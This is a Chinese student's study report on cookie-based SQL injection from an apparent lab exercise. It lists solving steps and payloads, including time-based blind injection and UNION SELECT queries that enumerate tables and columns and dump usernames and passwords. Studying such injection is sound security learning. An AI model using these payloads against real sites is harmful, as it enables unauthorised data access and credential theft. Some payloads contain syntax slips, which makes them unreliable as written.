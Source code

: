 # 刘灿学习报告02
Cookie注入
====

一般解题思路：
----

1.  检查是否有注入

2.  判断注入类型

3.  查所有的表（例子：时间盲注：id=-1 or if((select
    ascii(substr(database(),1,1))) =99,sleep(2),1) %23）

4.  再找flag对应的列的值是什么

### 1、cookie原理讲解

    Cookie是我们在登录网站是的一个凭证，登录时生成并且和账号绑定
    
    可以通过抓包查看

###    2、例题 + sql语句

![图片1](https://gitee.com/leishanhuo/study/raw/master/img/%E5%9B%BE%E7%89%871.png)

#####    1、
     然后编写语句开始注入 order by _ %23
    （这里的下划线是要输入的内容，查询表的数目）

 

#####     2、
    And 0 union select 1,2,3
    %23(1，2，3的前置条件要为假，所有紧挨着加一个and
    0)此时注意登录的位置这个题的是在 2 这个位置登录的

#####     3、
    And 0 union select 1,user(),3 %23
    这里如果没有报错就进行下一步查询所有表

#####     4、
    And 0 union select 1，group_concat(table_name),3,from
    information_schema.tables where table_schema = database() %23

#####     5、
    And 0 union select 1，group_concat(column_name),3,from
    information_schema.columns where table_schema = database() and
    table_name='users' %23（再查具体的表的列数，内容）

#####     6、
    And 0 union select
    1,group_concat(concat_ws(':',username,password)),3 from users
    %23（查询到用户名和密码，其他表类似）

```{=html}
<!-- -->
```
###3.  小结

    思路和之前所学都一样，只是注入字段的变化，这次从cookie这里的字段开始注入，然后注入语句基本都相同
